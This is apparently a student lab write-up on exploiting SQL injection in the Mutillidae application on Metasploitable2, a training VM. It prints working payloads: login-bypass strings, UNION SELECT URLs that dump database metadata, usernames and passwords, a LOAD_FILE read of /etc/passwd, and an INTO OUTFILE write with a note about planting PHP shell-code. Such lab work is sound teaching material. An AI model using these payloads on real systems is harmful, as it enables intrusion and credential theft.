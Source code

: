 ![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/e0d46723-18de-4532-86ce-0be6ea599cfd)# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/0f442b99-cec1-46ab-b92a-fd935c14d155)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/cda80948-b221-48d1-8b8e-152e1b3575a1)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/85d81817-a933-4560-973d-aa018349e396)
Click on the menu Login/Register and register for an account
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/6170c779-8ebf-49cf-9db3-8ba0ae6c594d)
Click on the link “Please register here”
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/148c315d-7fd2-44cf-8701-3b94831734ea)
Click on “Create Account” to display the following page:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/eef32cd5-9b99-4baf-968d-8bc745519c0e)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/de2a8dfa-0474-4407-b55c-2c42b0e5fde7)

Click “Login”. The logged in page will show as below:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/56457512-0052-48b9-808d-7643da6e0e31)

## Bypassing logi field
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”
Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/a5e688da-83c2-449c-bc5b-22cea6ab3c5b)

Click the login button and you will see it enter into the administrator page
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/3238da4a-7109-47c7-943e-d3545180e54d)

## Union-based SQL Injection

UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/582cd825-53cf-402d-895f-75ba26e78067)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/0826dcd3-9aff-4a9b-bc84-d44e29faa997)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/b7f22171-e0cc-4b10-aebf-3af394c228f1)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/c3544ccf-30d3-42e3-8df1-3ce7f687d8b0)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/d81b075d-2b03-4322-9b74-28781aa5bdb4)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/2b625399-4b20-4bb1-a2ae-1241fb5c2736)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: 
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/71e0be6b-c248-4186-8149-a09da980c988)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/c6feb4c5-aec2-47b5-8adc-5b0060b69dfd)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/f5482603-0d36-4349-9444-628dc0735ed9)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/95625ee8-d07e-45f2-8ffe-e8727d69c683)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/f94c667b-d550-4386-a842-a84c3e1f7a90)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/92939051-bb61-4163-87dd-c66c7b757926)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/c28884d3-84e5-4d7c-8dfb-bb3856bd28c7)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/d3390b08-a9ae-474c-98dd-1a058de73430)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/d8f7d2be-5816-438f-852f-39c7a4ad6daa)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/507a8789-fcdc-4f66-89d0-34400df6eb25)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/7e5198c8-3c20-4437-bc2c-e9596fb227e9)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/1db9ea12-c0eb-4709-91ca-4323365b2608)
Reading and writing files on the web-server We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/69e225a5-35b7-4cf4-ad31-4a668d3a5725)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
